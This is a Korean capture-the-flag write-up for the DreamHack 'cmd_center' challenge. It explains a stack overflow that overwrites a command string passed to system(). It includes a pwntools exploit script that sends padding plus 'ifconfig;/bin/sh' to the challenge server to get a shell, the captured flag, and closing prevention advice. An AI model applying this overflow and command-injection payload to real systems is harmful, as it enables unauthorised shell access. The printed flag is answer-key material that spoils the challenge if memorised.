




# B1 · cmd_center

### 1. 코드 확인 — 입력이 명령으로 이어지는 흐름

프로그램은 명령 문자열 ``cmd_ip``를 ``ifconfig``로 초기화하고, 사용자 입력을 ``center_name``에 받습니다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void init()
{
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}

int main()
{
    char cmd_ip[256] = "ifconfig";
    int dummy;
    char center_name[24];

    init();

    printf("Center name: ");
    read(0, center_name, 100);

    if (!strncmp(cmd_ip, "ifconfig", 8)) {
        system(cmd_ip);
    }
    else {
        printf("Something is wrong!\n");
    }
    exit(0);
}
```

``setvbuf(stdout, 0, 2, 0)``는 출력 버퍼링을 끕니다. 따라서 ``Center name: `` 안내가 입력을 기다리는 동안 바로 보입니다.

``read(0, center_name, 100)``은 표준 입력(파일 번호 0)에서 최대 100바이트를 읽어 ``center_name[24]``에 씁니다. 입력 크기를 버퍼 크기와 비교하지 않으므로, 24바이트보다 많이 입력하면 배열 바깥 메모리까지 덮어씁니다.

이후 ``strncmp(cmd_ip, "ifconfig", 8)``은 문자열 전체가 아니라 처음 8바이트만 비교합니다. 처음 8바이트가 ``ifconfig``이면 비교 결과가 0이고, ``!0``은 참이므로 ``system(cmd_ip)``가 실행됩니다. ``system``은 명령을 셸에서 실행하므로 문자열 뒤에 ``;/bin/sh``를 붙이면 ``ifconfig`` 실행 뒤에 셸도 실행됩니다.

### 2. 디스어셈블리에서 변수 주소 찾기

<p align="center">
  
</p>

어셈블리에서 변수 이름을 바로 읽는 것이 아니라, **각 함수에 전달되는 인자와 주소를 C 호출과 대조**해 위치를 확인합니다. x86-64 리눅스에서는 함수의 첫 세 인자가 순서대로 ``RDI``, ``RSI``, ``RDX``에 들어갑니다.

| C 코드의 인자 순서 | 첫 번째 인자: RDI | 두 번째 인자: RSI | 세 번째 인자: RDX |
| --- | --- | --- | --- |
| ``read(0, center_name, 100)`` | ``0``: 표준 입력 | ``&center_name``: ``[rbp-0x130]``를 가리키는 주소 | ``100`` |
| ``strncmp(cmd_ip, "ifconfig", 8)`` | ``&cmd_ip``: ``[rbp-0x110]``를 가리키는 주소 | ``"ifconfig"``의 주소 | ``8`` |

예를 들어 C의 두 번째 인자는 ``read(0, center_name, 100)``에서 ``center_name``입니다. 어셈블리에서 ``RSI``에 ``rbp-0x130`` 주소가 전달되면, **그 주소가 ``center_name``의 시작을 가리킨다**고 읽으면 됩니다. ``lea``는 그 위치의 값을 가져오는 것이 아니라 주소를 계산합니다.

``cmd_ip``는 초기화 문자열이 ``[rbp-0x110]``에 저장되고, 같은 주소가 ``strncmp``와 ``system`` 호출의 첫 번째 인자로 사용되는 것을 따라가 확인합니다. 디스어셈블리의 ``movabs`` 상수 ``0x6769666e6f636669``도 리틀엔디안 바이트로 보면 문자열 ``ifconfig``입니다.

두 시작 주소의 차이는 다음과 같습니다.

```text
cmd_ip 시작 - center_name 시작
= (rbp - 0x110) - (rbp - 0x130)
= 0x20바이트 = 32바이트
```

따라서 입력은 건너뛰지 않고 순서대로 기록됩니다.

```text
입력 오프셋  0 ───────── 23 | 24 ─ 31 | 32부터
기록 위치    center_name   | 빈 공간 | cmd_ip 시작
```

처음 24바이트가 ``center_name``에 들어가고, 다음 8바이트가 그 뒤 공간을 채웁니다. 그래서 ``A`` 32개를 보낸 다음의 바이트부터 ``cmd_ip``가 덮입니다. 이 32바이트는 배열 24바이트와 그 뒤 8바이트를 합한 거리입니다.

``read``가 최대 100바이트를 모두 받는 경우에는 ``cmd_ip``의 앞부분 최대 68바이트까지 덮을 수 있습니다(100 - 32). 이번 페이로드는 총 48바이트이므로 ``cmd_ip``에는 뒤의 명령 문자열 16바이트가 기록됩니다. 이 입력은 반환 주소나 카나리까지 도달하지 않습니다. 화면에 보이는 카나리는 다른 종류의 스택 변조를 막는 보호 장치이며, 이 풀이의 핵심은 반환 주소를 바꾸는 것이 아니라 ``cmd_ip``를 바꾸는 것입니다.

### 3. 페이로드 전송

<p align="center">
  
</p>

```python
from pwn import *

# p = process("./cmd_center")  # 로컬 바이너리 실행
p = remote("host3.dreamhack.games", 19595)

payload = b"A" * 0x20 + b"ifconfig" + b";/bin/sh"

p.send(payload)
p.interactive()
```

``remote(host, port)``는 문제 서버에 연결합니다. ``process("./cmd_center")``는 같은 바이너리를 로컬에서 실행할 때 사용하는 코드입니다. ``p.send(payload)``는 구성한 바이트를 서버로 보내고, ``p.interactive()``는 이후 터미널의 입력과 출력을 원격 연결에 이어 줍니다.

페이로드의 각 부분은 다음 역할을 합니다.

- ``b"A" * 0x20``은 32바이트 패딩입니다. ``center_name``과 그 뒤 공간을 채워 ``cmd_ip`` 시작점에 도달합니다.
- ``b"ifconfig"``는 ``strncmp``의 8바이트 검사를 통과시키는 접두어입니다.
- ``b";/bin/sh"``는 셸 명령 구분자 ``;`` 뒤에 셸을 실행합니다.

전체 흐름은 ``입력 수신 → 32바이트 패딩으로 cmd_ip에 도달 → cmd_ip를 ifconfig;/bin/sh로 변경 → 앞 8바이트 비교 통과 → system이 셸 명령 실행 → 대화형 셸 사용``입니다.

직접 입력해도 원리는 같지만, 패딩을 정확히 32바이트 맞춰야 합니다. 스크립트는 이 길이와 바이트를 정확하게 보내기 위해 사용했습니다. 이 코드에는 제한 시간 기능이 없으므로 시간 압박 때문에 스크립트가 필요한 문제는 아닙니다.

### 4. 셸 진입 확인

<p align="center">
  
</p>

``$`` 프롬프트가 나타나면 원격 셸에서 명령을 입력할 수 있습니다. ``Center name: `` 뒤에 프롬프트가 붙어 보이는 것은 원래 안내 문구에 줄바꿈이 없기 때문입니다. 셸 진입 뒤 ``cat flag``를 입력해 FLAG 파일을 출력했습니다.

### 5. FLAG 확인 및 제출

<p align="center">
  
</p>

터미널에 출력된 FLAG를 복사해 DreamHack 문제 페이지의 FLAG 입력란에 붙여 넣고 제출합니다.

```text
DH{f4c11bf9ea5a1df24175eed11da0d16}
```

### 6. 취약점 예방법

입력 길이를 실제 배열 크기 이하로 제한해야 합니다. 문자열로 사용할 경우 읽은 바이트 수를 확인하고 널 종료도 처리합니다.

```c
ssize_t n = read(STDIN_FILENO, center_name, sizeof(center_name) - 1);
if (n < 0) {
    perror("read");
    return 1;
}
center_name[n] = '\0';
```

또한 사용자 입력이 포함될 수 있는 문자열을 ``system()``에 전달하지 않는 것이 안전합니다. 고정된 명령을 실행해야 한다면 셸 문자열을 조합하는 대신 실행 파일과 인자를 분리해 호출하고, 명령이 필요하다면 허용 목록으로 제한해야 합니다. ``strncmp(..., 8)``처럼 접두어만 확인하는 것은 뒤에 다른 셸 명령이 붙는 것을 막지 못합니다.

**취약점 원인:** 24바이트 배열에 최대 100바이트를 읽어 스택의 ``cmd_ip``까지 덮어쓸 수 있고, 처음 8바이트만 검사한 뒤 그 문자열을 ``system()``으로 실행합니다. 입력 길이를 제한하고, 사용자 입력이 셸 명령으로 해석되지 않게 해야 합니다.
